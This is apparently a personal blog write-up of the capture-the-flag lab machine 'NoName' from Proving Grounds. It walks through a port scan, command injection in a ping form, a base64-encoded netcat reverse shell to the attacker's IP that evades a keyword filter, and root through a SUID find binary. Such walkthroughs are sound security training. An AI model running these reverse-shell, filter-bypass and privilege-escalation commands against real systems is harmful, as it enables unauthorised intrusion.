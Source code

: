 ```yaml
---
title: NoName
categories: [Proving Grounds, Play]
tags: [Command  Injection, PrivEsc, SUIDs, Steghide, find]
image:
  path: https://cdn.hashnode.com/res/hashnode/image/upload/v1651699318197/EWGurlNyB.png
  width: "1200"
  height: "630"
  alt:  NoName Machine 🖥️
---
```


>This machine crashes alot so frustrating Machine →
{: .prompt-danger }

### Let’s find the IP Address first >>

![Untitled](/Vulnhub-Files/img/NoName/Untitled.png)

```bash
IP : 10.0.2.57
```
{: .nolineno}

## Port Scan Results ➡️

```bash
┌──(kali㉿kali)-[~/Downloads/Proving_Ground/Noname]
└─$ sudo nmap -sC -sV -p- -T4 -oN Nmap_results.txt 10.0.2.57     
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-27 15:54 IST
Nmap scan report for 10.0.2.57
Host is up (0.0023s latency).
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Site does not have a title (text/html; charset=UTF-8).
|_http-server-header: Apache/2.4.29 (Ubuntu)
MAC Address: 08:00:27:7E:D4:B7 (Oracle VirtualBox virtual NIC)
```
{: .nolineno}

## Web Enumeration ⤵️

![Untitled](/Vulnhub-Files/img/NoName/Untitled%201.png)

Now Entering any value gives no results so lets see into the directory listing files →

![Untitled](/Vulnhub-Files/img/NoName/Untitled%202.png)

lets see the admin directory →

![Untitled](/Vulnhub-Files/img/NoName/Untitled%203.png)

I think paraphrase are used in as password from extracting data from image or file so lets see what I can get from this →

![Untitled](/Vulnhub-Files/img/NoName/Untitled%204.png)

as I got a file named as `superadmin.php` →

![Untitled](/Vulnhub-Files/img/NoName/Untitled%205.png)

Now I see it is pinging the input IP address so lets bypass it and make it into a command Injection →

![Untitled](/Vulnhub-Files/img/NoName/Untitled%206.png)

Now I can execute certain commands so lets see the source code of this superadmin.php file so that  we can debugg this page →

![Untitled](/Vulnhub-Files/img/NoName/Untitled%207.png)

After seeing this code I have to bypass (";","&&","/","bin","&"," &&","ls","nc","dir","pwd") these attributes to gain an access →

So lets use base64 as encoding and decoding system and then executing it .

Lets try →

```bash
┌──(kali㉿kali)-[~/Downloads/Proving_Ground/Noname]
└─$ echo "nc.traditional -e /bin/bash 10.0.2.15 4444" | base64
bmMudHJhZGl0aW9uYWwgLWUgL2Jpbi9iYXNoIDEwLjAuMi4xNSA0NDQ0Cg==
```
{: .nolineno}

![Untitled](/Vulnhub-Files/img/NoName/Untitled%208.png)

In response to that I got a local privilege escalation ⤵️

![Untitled](/Vulnhub-Files/img/NoName/Untitled%209.png)

Lets enumerate further →

```bash
www-data@haclabs:/home$ ls
ls
haclabs  yash
www-data@haclabs:/home$ cd yash
cd yash
www-data@haclabs:/home/yash$ ls -al
ls -al
total 36
drwxr-xr-x 5 yash yash 4096 Feb 15  2020 .
drwxr-xr-x 4 root root 4096 Jan 27  2020 ..
-rw------- 1 yash yash   13 Feb 15  2020 .bash_history
-rw-r--r-- 1 yash yash 3771 Jan 27  2020 .bashrc
drwx------ 2 yash yash 4096 Feb  9  2020 .cache
drwx------ 3 yash yash 4096 Jan 27  2020 .gnupg
drwxrwxr-x 3 yash yash 4096 Jan 27  2020 .local
-rw-r--r-- 1 yash yash  807 Jan 27  2020 .profile
-rw-rw-r-- 1 yash yash   77 Jan 30  2020 flag1.txt
www-data@haclabs:/home/yash$ cat flag1.txt
cat flag1.txt
Due to some security issues,I have saved haclabs password in a hidden file.
www-data@haclabs:/home/yash$
```
{: .nolineno}

Now I also got flag2.txt into haclabs directory →

```bash
www-data@haclabs:/home/haclabs$ cat flag2.txt	
cat flag2.txt
I am flag2 

	   ---------------               ----------------
                         
                     
                               --------
www-data@haclabs:/home/haclabs$
```
{: .nolineno}

Now lets see the SUIDs files →

![Untitled](/Vulnhub-Files/img/NoName/Untitled%2010.png)

I got a command of `find` that have a permission to get use to root lets try →

```bash
www-data@haclabs:/var/www/html$ find . -exec /bin/bash -p \; -quit 
bash-4.4# whoami
root
bash-4.4# id
uid=33(www-data) gid=33(www-data) euid=0(root) groups=33(www-data)
bash-4.4# cd /root
bash-4.4# ls -al
total 40
drwx------  6 root root 4096 Jun 28 12:22 .
drwxr-xr-x 24 root root 4096 Mar 14  2020 ..
-rw-------  1 root root    0 Jul 14  2020 .bash_history
-rw-r--r--  1 root root 3106 Apr  9  2018 .bashrc
drwx------  2 root root 4096 Jan 30  2020 .cache
drwx------  5 root root 4096 Jan 30  2020 .config
drwx------  3 root root 4096 Jan 27  2020 .gnupg
drwxr-xr-x  3 root root 4096 Jan 27  2020 .local
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
-rw-r--r--  1 root root   32 Jul 14  2020 flag3.txt
-rw-r--r--  1 root root   33 Jun 28 12:22 proof.txt
bash-4.4# cat flag3.txt 
Your flag is in another file...
bash-4.4# cat proof.txt 
718d227b9f5e9b38a754aa386ee60f3d
bash-4.4#
```
{: .nolineno}

Now also lets see the local.txt file in yash directory →

```bash
bash-4.4# cd /home
bash-4.4# ls
haclabs  yash
bash-4.4# cd yash
bash-4.4# ls -al
total 36
drwxr-xr-x 5 yash yash 4096 Jul 10  2020 .
drwxr-xr-x 4 root root 4096 Jan 27  2020 ..
-rw------- 1 yash yash    0 Mar 16  2020 .bash_history
-rw-r--r-- 1 yash yash 3771 Jan 27  2020 .bashrc
drwx------ 2 yash yash 4096 Feb  9  2020 .cache
drwx------ 3 yash yash 4096 Jan 27  2020 .gnupg
drwxrwxr-x 3 yash yash 4096 Jan 27  2020 .local
-rw-r--r-- 1 yash yash  807 Jan 27  2020 .profile
-rw-rw-r-- 1 yash yash   77 Jan 30  2020 flag1.txt
-rw-r--r-- 1 yash yash   33 Jun 28 12:22 local.txt
bash-4.4# cat local.txt 
7776aa0d53576f01d200900eded356bd
bash-4.4#
```
{: .nolineno}

---

> If you have any questions or suggestions, please leave a comment below.
Thank You ! 
{: .prompt-tip }